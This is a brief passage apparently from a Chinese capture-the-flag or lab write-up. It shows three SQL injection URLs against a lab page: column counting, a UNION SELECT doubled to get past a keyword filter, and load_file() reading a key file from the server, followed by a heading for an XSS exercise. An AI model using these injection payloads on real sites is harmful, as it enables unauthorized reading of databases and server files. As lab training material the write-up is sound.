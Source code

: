 ![upload successful](./images/pasted-890.png)
![upload successful](./images/pasted-891.png)
拿到key
```
fu1.php?id=1%') order by 7 -- q
fu1.php?id=-1%') uniunionon select 1,2,3,4,5,6,7 -- q
fu1.php?id=-1%') uniunionon select 1,load_file(\"/tmp/360/key\"),3,4,5,6,7 -- q
```

# 34213 XSS跨站脚本攻击
